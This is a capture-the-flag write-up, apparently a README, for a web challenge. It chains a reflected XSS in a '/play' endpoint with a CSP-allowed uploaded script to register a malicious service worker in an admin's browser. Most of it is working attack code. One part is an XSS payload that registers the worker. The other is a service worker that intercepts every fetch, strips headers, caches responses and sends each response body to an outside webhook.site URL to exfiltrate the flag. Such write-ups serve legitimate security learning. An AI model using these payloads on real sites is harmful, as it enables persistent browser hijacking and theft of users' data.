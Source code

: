 # XSS
The reflected XSS in `/play` can be used to run a script from a file shared with the admin (allowed by the CSP).

The XSS is used to register a service worker in the admin browser.

```
<script>
navigator.serviceWorker.register('https://filesharing.m0lec.one/upload/e81c51506d9b4e4ca5d609ed0f6e4fe3');
window.setTimeout(()=>document.location = 'https://filesharing.m0lec.one/upload/ffffffffffffffffffffffffffffffff',500);
</script>
```

# Service worker

Example of service worker to exfiltrate the flag

```
self.addEventListener('fetch', (e) => {
  e.respondWith(
    caches.match(e.request).then((r) => {
      return r || fetch(e.request).then((response) => {

        console.log(response);
        console.log(new Map(response.headers));

        const newHeaders = new Headers();

        const anotherResponse = new Response(response.body, {
          status: response.status,
          statusText: response.statusText,
          headers: newHeaders
        });


        clone = anotherResponse.clone()
        clone.text().then((x)=>fetch('https://webhook.site/9cf73d0f-160a-4f23-a986-70f1bc21b864/'+x).then((r)=>console.log(r)));


        console.log(new Map(anotherResponse.headers));


        return caches.open('static').then(
          (cache) => {
            cache.put(e.request,
              anotherResponse.clone());
            return anotherResponse;
          }
        );
      });
    })
  );
});

```
